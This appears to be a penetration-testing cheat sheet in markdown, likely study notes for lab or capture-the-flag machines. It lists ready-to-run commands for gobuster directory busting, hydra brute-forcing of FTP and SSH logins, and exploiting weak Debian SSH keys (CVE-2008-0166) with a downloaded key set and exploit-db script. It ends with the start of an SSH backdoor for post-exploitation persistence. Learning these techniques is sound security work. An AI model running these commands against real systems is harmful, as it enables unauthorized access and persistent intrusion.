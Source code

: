 
## Directory Busting
- Dirbuster
  - [Dirbuster Description](https://tools.kali.org/web-applications/dirbuster)

- GoBuster
  - Resources
    - [materials.rangeforce tutorial](https://materials.rangeforce.com/tutorial/2020/03/26/Gobuster/)
    - [redteamtutorials tutorial](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - Examples
    - `gobuster dir -u <IP or URL> -t 200 -w <Path to dir path file>`
      - Example 1: `gobuster dir -u http://10.129.1.135/nibbleblog/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt >> goBuster-01.txt` 
      - Example 2: `gobuster dir -u http://10.129.1.135:80 -t 200 -w /usr/share/wordlists/dirb/common.txt >> goBuster-01.txt`


## FTP - 21
- Brute force
  - `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV`

- Downloading file
  - `ftp <IP>`

- PASSIVE
  - BINARY
    - `get <FILE>`
  - Uploading file
    - `ftp <IP>`
- PASSIVE
  - BINARY
    - `put <FILE>`


## SSH - 22
- Brute force
  - `hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV`

- CVE-2008-0166
  - All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.
  - <https://www.exploit-db.com/exploits/5720>

  - `wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2`

  - `bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2`
  - `tar -xvf debian_ssh_rsa_2048_x86.tar`
  - `tar -xvf debian_ssh_dsa_1024_x86.tar`

  - `python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>`
  - `python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>`

- SSH backdoor - post exploitation
  - Attacker
    - `ssh-keygen -f <FILENAME>`
    - `chmod 600 <FILENAME>`
    - `cat <FILENAME>.pub -> copy`
